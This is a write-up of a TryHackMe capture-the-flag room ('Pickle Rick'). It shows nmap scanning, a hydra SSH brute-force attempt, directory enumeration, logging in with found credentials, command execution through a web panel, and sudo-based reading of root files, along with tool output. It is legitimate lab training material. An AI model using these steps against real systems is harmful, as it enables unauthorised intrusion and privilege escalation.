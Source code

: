 # pickle-rick

[Room](https://tryhackme.com/r/room/picklerick)

# What is the first ingredient that Rick needs?

The homepage's HTML gives the username

```html
<!--

    Note to self, remember username!

    Username: R1ckRul3s

  -->
```

Since the website doesn't seems to contains more than the SOS message in the index.html, maybe there is an SSH server running. In effect,

```
nmap 10.10.73.23
Starting Nmap 7.80 ( https://nmap.org ) at 2024-12-01 16:50 -03
Host is up (0.34s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

We have one user, what if we use `hydra` to try to brute force the password?

```
hydra -l R1ckRul3s -P /usr/share/wordslists/rockyou.txt 10.10.73.23 ssh
Hydra v9.2 (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secre
t service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-12-01 17:00:17
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344398 login tries (l:1/p:14344398), ~896525 tries per task
[DATA] attacking ssh://10.10.73.23:22/
[ERROR] target ssh://10.10.73.23:22/ does not support password authentication (method reply 4)
```

Huh? What is the user for then? Running gobuster dir with a couple of Apache(the server on port 80 is running Apache) didn't work either.

Maybe the image has encoded data? Nope, exiftool doesn't reveal anything.

What if I just can login into the SSH server with the username?

```
ssh R1ckRul3s@10.10.73.23
R1ckRu3s@10.10.73.23: Permission denied (publickey)
```

Nope.

After a couple of days, I came back to Pickle Rick and I realize that the user might be a web application user, not an SSH one. This means that I should
perform directory enumeration

```
gobuster dir -u http://10.10.240.199 -w dirb/common.txt

===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.94.166
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordslists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 277]
/.htaccess            (Status: 403) [Size: 277]
/.htpasswd            (Status: 403) [Size: 277]
/assets               (Status: 301) [Size: 313] [--> http://10.10.94.166/assets/]
/index.html           (Status: 200) [Size: 1062]
/robots.txt           (Status: 200) [Size: 17]
/server-status        (Status: 403) [Size: 277]
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================
```

What if we inpsect robots.txt? There we find the string `Wubbalubbadubdub` and nothing more. It should be a part of the website that bots are allowed/disallowed
to scan but it doesn't seem to be the case here. Maybe we just found the password to the `R1ckRul3s` user? Not so sure.

After some time, the answer came in the form of another dir enumeration, this time with

```
dirbuster dir -u http://10.10.94.166 -w php_files_only.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.94.166
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordslists/php_files_only.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/login.php            (Status: 200) [Size: 882]

```

![](/images/thm/pickle-rick/00.png)

Let's try with `R1ckRul3s:Wubbalubbadubdub`. And it works! Finally, some progress.

There is a command panel, with a text box and the rest of the sections of the site are blocked with a
legend "Only the REAL rick can view this page...". If we look at the login page code

![](/images/thm/pickle-rick/01.png)

We can see that there is a comment with a mysterious string: `Vm1wR1UxTnRWa2RUV0d4VFlrZFNjRlV3V2t0alJsWnlWbXQwVkUxV1duaFZNakExVkcxS1NHVkliRmhoTVhCb1ZsWmFWMVpWTVVWaGVqQT0==`.
Let's save it for another time. If we input a random string at the command panel nothing seems to happen. What if go with `pwd`?

![](/images/thm/pickle-rick/02.png)

We've got a hit! But `cat` doesn't seems to work

![](/images/thm/pickle-rick/03.png)

But `ls` works and it points to the right direction

![](/images/thm/pickle-rick/04.png)

Going to /Sup3rS3cretPickl3Ingred.txt gives the flag.

# What is the second ingredient in Rick’s potion?

The `ls` from before, quite literally, give us a clue in the form of /clue.txt, it says

> Look around the file system for the other ingredient.

More enumeration? `ls /home` tell us that there is a `rick` user and `ls -p /home/rick` says that there is a file,
called `second ingredients`, but we can't see it's contents because our user is not root

```
ls -ll /home/rick
-rwxrwxrwx 1 root root 13 Feb 10  2019 second ingredients
```

What if we look around for the programs our user, ubuntu, can execute as sudo? Using `ls -ll /usr/bin` as input, we can see
that `less` can be run as root. Nice! Maybe that's all that we need. Let's try: `sudo less /home/rick/*`. It works!

# What is the last and final ingredient?

After some time exploring the filesystem and trying to get a reverse shell, a `sudo -ll` was the missing piece

```
Matching Defaults entries for www-data on ip-10-10-94-166:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ip-10-10-94-166:

Sudoers entry:
    RunAsUsers: ALL
    Options: !authenticate
    Commands:
	ALL
```

This means that our user, `www-data`, can run all commands as sudo without the need to known the sudo password! To get
the third flag: `sudo less /root/3rd.txt`.

# Lessons Learned

- Run `nmap` with `-T4` to perform faster initial scans. Warning: this may trigger defense mechanisms on the target's side.
- More words: https://github.com/xajkep/wordlists/tree/master!
- Use -F or -p flags with the `ls` command to find if the output is a file or a dir.
- Use `sudo -l` to find what commands can be run as sudo by the current user. `NOPASSWD` means that the executables listed
  doesn't require a password to run as sudo.
